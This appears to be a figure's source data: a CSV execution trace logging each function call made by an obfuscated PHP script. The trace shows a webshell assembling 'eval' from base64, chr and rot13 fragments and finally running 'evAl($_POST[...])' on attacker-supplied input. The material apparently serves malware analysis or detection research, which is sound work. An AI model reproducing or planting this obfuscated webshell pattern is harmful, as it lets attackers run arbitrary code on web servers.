

Source data for this figure (header and first rows):
uuid, file_md5, index, source, target, argc, argv, return, dynamic
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 0, __main__, zend_compile_file, 2, {"value": []}, {"value": "28413C02413C0802413C0802413C0…, []
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 1, __main__, base64_decode, 1, {"value": [[0, "str", "JA=="]]}, {"value": "$"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 2, __main__, chr, 1, {"value": [[0, "codepoint", 115]]}, {"value": "s"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 3, __main__, chr, 1, {"value": [[0, "codepoint", 111]]}, {"value": "o"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 4, __main__, chr, 1, {"value": [[0, "codepoint", 109]]}, {"value": "m"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 5, __main__, chr, 1, {"value": [[0, "codepoint", 101]]}, {"value": "e"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 6, __main__, base64_decode, 1, {"value": [[0, "str", "ZQ=="]]}, {"value": "e"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 7, __main__, base64_decode, 1, {"value": [[0, "str", "dg=="]]}, {"value": "v"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 8, __main__, chr, 1, {"value": [[0, "codepoint", 97]]}, {"value": "a"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 9, __main__, base64_decode, 1, {"value": [[0, "str", "bA=="]]}, {"value": "l"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 10, __main__, chr, 1, {"value": [[0, "codepoint", 40]]}, {"value": "("}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 11, __main__, chr, 1, {"value": [[0, "codepoint", 36]]}, {"value": "$"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 12, __main__, str_rot13, 1, {"value": [[0, "str", "f"]]}, {"value": "s"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 13, __main__, str_rot13, 1, {"value": [[0, "str", "b"]]}, {"value": "o"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 14, __main__, chr, 1, {"value": [[0, "codepoint", 109]]}, {"value": "m"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 15, __main__, base64_decode, 1, {"value": [[0, "str", "ZQ=="]]}, {"value": "e"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 16, __main__, chr, 1, {"value": [[0, "codepoint", 41]]}, {"value": ")"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 17, __main__, base64_decode, 1, {"value": [[0, "str", "Ow=="]]}, {"value": ";"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 18, __main__, create_function, 2, {"value": [[0, "args", "$some"], [1, "co…, {"value": "\\x00lambda_1"}, [0, 0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 19, create_function, zend_compile_string, 2, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 20, __main__, base64_decode, 1, {"value": [[0, "str", "VA=="]]}, {"value": "T"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 21, __main__, chr, 1, {"value": [[0, "codepoint", 49]]}, {"value": "1"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 22, __main__, chr, 1, {"value": [[0, "codepoint", 78]]}, {"value": "N"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 23, __main__, chr, 1, {"value": [[0, "codepoint", 85]]}, {"value": "U"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 24, __main__, base64_decode, 1, {"value": [[0, "str", "Vw=="]]}, {"value": "W"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 25, __main__, str_rot13, 1, {"value": [[0, "str", "2"]]}, {"value": "2"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 26, __main__, chr, 1, {"value": [[0, "codepoint", 74]]}, {"value": "J"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 27, __main__, str_rot13, 1, {"value": [[0, "str", "W"]]}, {"value": "J"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 28, __main__, chr, 1, {"value": [[0, "codepoint", 84]]}, {"value": "T"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 29, __main__, chr, 1, {"value": [[0, "codepoint", 85]]}, {"value": "U"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 30, __main__, base64_decode, 1, {"value": [[0, "str", "OTY2MDY4O2V2QWwoJ…, {"value": "966068;evAl($_POST[bIMHtREX])…, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 31, __main__, __lambda_func, 1, {"value": [[0, "some", "966068;evAl($_PO…, {"value": "void"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 32, __lambda_func, eval, 1, {"value": [[0, "phpcode", "966068;evAl($…, {"value": "void"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 33, eval, zend_compile_string, 2, {"value": [[0, "source_string", "966068;…, {"value": "635051493E"}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 34, eval, zend_fetch_r_post, 1, {"value": [[0, "op1", "_POST"]]}, {"value": []}, [0]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 35, eval, eval, 1, {"value": [[0, "phpcode", "assert"]]}, {"value": "void"}, [130]
4e0c632a4458e18e9c5f3b0346336f1d, c4a0d6df1b24b1200c6d06202fb61cd0, 36, eval, zend_compile_string, 2, {"value": [[0, "source_string", "assert"…, {"value": ""}, [130]
